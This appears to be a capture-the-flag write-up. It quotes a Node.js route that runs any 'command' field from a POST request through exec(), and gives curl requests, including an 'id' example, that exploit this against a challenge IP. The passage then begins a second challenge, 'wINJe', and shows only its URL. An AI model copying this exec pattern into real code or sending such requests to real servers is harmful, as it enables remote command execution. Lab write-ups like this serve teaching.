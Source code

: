 
checking inside main.js

```
#not not sure if you can understand me but i know you can folk easy-peasy

app.post('/command', (req, res) => {
  const { command } = req.body;
  exec(command, (error, stdout, stderr) => {
    if (error) {
      console.error(`Error: ${error}`);
      res.status(500).send({ error });
      return;
    }
    console.log(`stdout: ${stdout}`);
    console.log(`stderr: ${stderr}`);
    res.send({ stdout, stderr });
  });
});
```

well seems there some js code , if you understand  them the it pass a command parameter under /command and executed in exec function that run system command on server

how to exploit :
---

```
curl -X POST -d '{"command":"your command here"}' -H 'Content-Type: application/json' http://44.201.225.84:9002/command 
```

example

```
curl -X POST -d '{"command":"id"}' -H 'Content-Type: application/json' http://44.201.225.84:9002/command
```

get the flag


##  wINJe
---



![image alt text](img/20230103113410.png)


a challenge name is wINJe, could be an injection?, well lets open the page

![[20230103113636.png]]
There some menu, kunze and jafe navigation, if you click them

```
http://44.201.225.84:9001/udom.php?name=Kunze&lastname=Jafe
```
